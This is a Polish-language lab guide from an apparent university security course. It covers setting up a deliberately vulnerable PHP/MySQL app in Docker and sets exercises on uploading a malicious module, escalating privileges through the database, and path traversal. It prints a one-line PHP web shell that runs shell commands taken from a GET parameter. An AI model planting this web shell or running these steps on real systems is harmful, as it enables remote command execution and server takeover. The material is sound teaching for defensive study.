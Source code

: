# Instrukcja do części praktycznej

## Konfiguracja środowiska

W celu zainstalowania aplikacji zalecamy skorzystanie z docker-compose.

https://docs.docker.com/compose/install/

Oczywiście kod źródłowy aplikacji jest dla Ciebie dostępny, więc jeśli wolisz wykonać zadanie
w np. XAMPP'ie, to aplikacja powinna uruchomić się bez problemu, jednakże niniejsza instrukcja jest napisana z myślą o docker-compose.

### O aplikacji

Aplikacja, którą będziesz poddawać testowi, została napisana w języku PHP (8.2.25) i działa na serwerze Apache. Ponad to korzysta ona z serwera bazodanowego MySQL (MariaDB).

W katalogu src znajdziesz kod źródłowy strony. Chcąc zmienić dane
dostępowe do bazy danych, należy zmodyfikować plik src/lib/connect.php. Plik
inicjalizujący bazę danych znajduje się w ścieżce config/init.sql. Zawarte są
w nim kwerendy odpowiedzialne za utworzenie odpowiednich tabel i rekordów. Jeśli
utkniesz w trakcie wykonywania zadania, to możesz śmiało zajrzeć do tego pliku w poszukiwaniu
informacji o strukturze bazy danych.

### Instalacja

Pliki docker-compose.yml i Dockerfile pomogą Ci w szybkim postawieniu aplikacji.
Jeśli podążasz za naszym zaleceniem, to nie ingeruj w pliki konfiguracyjne aplikacji (no chyba, że napotkasz jakiś problem).

Upewnij się, że silnik Docker'a jest uruchomiony. Możesz to sprawdzić w panelu Docker Desktop.
Następnie w folderze docker użyj komendy:

```sh
docker-compose up --build
```

Terminal powinien wskazać Ci uruchomienie się 3 kontenerów: php-apache-container,
mysql-container i phpmyadmin-container. Pierwszy i ostatni powinny uruchomić się
szybko i bez problemu, natomiast mysql-container uruchomi się 3 razy i będzie gotowy dopiero
gdy pojawi się komunikat:

```
... [System] [MY-010931] [Server] /usr/sbin/mysqld: ready for connections. ...
```

W katalogu **docker** powinien zostać utworzony folder **mysql-data**. To ważny katalog z perspektywy aplikacji, bo mieści w sobie całą bazę danych. Z racji tego, że nie znajduje się on wewnątrz kontenera, ale na Twoim dysku, to nie musisz martwić się o utratę danych po wyłączeniu aplikacji.

W przypadku uszkodzenia bazy danych, zatrzymaj aplikację, usuń folder mysql-data i uruchom aplikacje ponownie.

Aby wejść do aplikacji, należy odwiedzić localhost:8080.

```
Login: baim
Hasło: baim
```

Aby wejść do panelu phpMyAdmin, należy odwiedzić localhost:8081. \
phpMyAdmin to aplikacja, która może Ci się przydać w modyfikowaniu rekordów w tabelach bazy danych.

```
Login: root
Hasło: root
```

Aby zakończyć działanie docker-compose, użyj kombinacji CTRL-C.

### O zadaniach

Teraz możesz przystąpić do wykonywania zadań. Zachęcamy Cię, abyś spróbował(-a) zmierzyć się z zadaniami bez zaglądania do podpowiedzi i rozwiązań. Jeśli jednak nie czujesz się na siłach, to możesz śmiało po nie sięgać. Zostały one napisane w taki sposób, abyś nie czuł(-a) się zagubiony(-a). Do każdej części zadania zostało dolączone wytłumaczenie mechaniki danego kroku, które najlepiej przeczytać po ukończeniu zadania.

Korzystaj również z kodu źródłowego, jeśli uznasz to za konieczne. Być może jest to Twoja pierwsza styczność z PHP. Dla uspokojenia, jego składnia przypomina mieszankę C i JavaScript, więc nie powinieneś(-aś) mieć problemów ze zrozumieniem kodu na poziomie abstrakcji.

Powodzenia!

## Zadanie 1

1. Zapoznaj się z działaniem aplikacji. Zajrzyj do kodu źródłowego i spróbuj zrozumieć zasadę jej działania (**NIE** analizuj dogłębnie linia po linii).

Jak zaimplementowane jest uwierzytelnianie? \
Jak zaimplementowana jest autoryzacja? \
Jak wczytywane są fragmenty strony? \
[Jak działa aplikacja? [PODPOWIEDŹ]](hints/ex1/1_1_hint.md) \
[Struktura aplikacji [MECHANIKA]](hints/ex1/1_mechanics.md)

2. Wyślij złośliwy moduł

Może to być najprostszy możliwy plik o treści:

```php
<?php
  echo "Hello! I'm evil.";
?>
```

lub też kod RCE:

```php
<?php
  echo shell_exec($_GET['cmd']);
?>
```

gdzie $\_GET['cmd'] przyjmuję wartość pola "cmd" z zapytania GET.

Jakie pliki przyjmuje formularz? \
Gdzie są one przechowywane? \
[Jak wysłać złośliwy kod? [PODPOWIEDŹ]](hints/ex1/2_1_hint.md) \
[Wykonanie [ROZWIĄZANIE]](hints/ex1/2_solution.md) \
[Sprawdzanie plików [MECHANIKA]](hints/ex1/2_mechanics.md)

3. Przyznaj swojemu użytkownikowi uprawnienie do wykonania złośliwego modułu.

Jakie informacje o użytkowniku przechowuje baza danych? \
Czy któraś z kolumn może być nadużyta?

[Jak wygląda struktura bazy danych? [PODPOWIEDŹ]](hints/ex1/3_1_hint.md) \
[Jak to wykonać? [PODPOWIEDŹ]](hints/ex1/3_2_hint.md) \
[Wykonanie [ROZWIĄZANIE]](hints/ex1/3_solution.md) \
[Komunikacja z bazą [MECHANIKA]](hints/ex1/3_mechanics.md)

4. Uruchom złośliwy moduł

[Konsekwencje ataku [MECHANIKA]](hints/ex1/4_mechanics.md)

## Zadanie 2

Czy jest możliwe wykonanie ataku path traversal głębiej, niż aplikacja na to pozwala? Wykorzystaj do tego celu narzędzia poznane na laboratoriach.

[Jak się za to zabrać? [PODPOWIEDŹ]](hints/ex2/1_hint.md) \
[Wykonanie [ROZWIĄZANIE]](hints/ex2/1_solution.md) \
[ [MECHANIKA]](hints/ex2/1_mechanics.md)
